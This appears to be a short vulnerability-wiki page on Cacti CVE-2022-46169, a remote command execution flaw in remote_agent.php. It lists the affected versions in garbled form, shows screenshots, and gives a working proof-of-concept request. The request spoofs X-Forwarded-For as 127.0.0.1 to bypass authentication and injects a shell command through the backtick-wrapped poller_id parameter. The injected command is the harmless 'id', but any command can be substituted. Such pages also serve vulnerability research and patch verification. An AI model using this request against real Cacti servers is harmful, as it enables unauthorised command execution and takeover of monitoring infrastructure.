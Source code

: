 # Cacti remote_agent.php remote command execution vulnerability CVE-2022-46169

## Vulnerability Description

Cacti is a server monitoring and management platform. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cacti < 1.2.17-1.2.22</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671182791178-ea22a02a-7451-4ad6-b9fb-03dcc3a17651.png)

Verify POC

```python
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`id>1.txt`
X-Forwarded-For: 127.0.0.1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671183300849-373782ab-7b1d-4166-88a7-34657bfb6025.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671183331943-89eccd02-cf00-478f-8093-173a5c14bd47.png)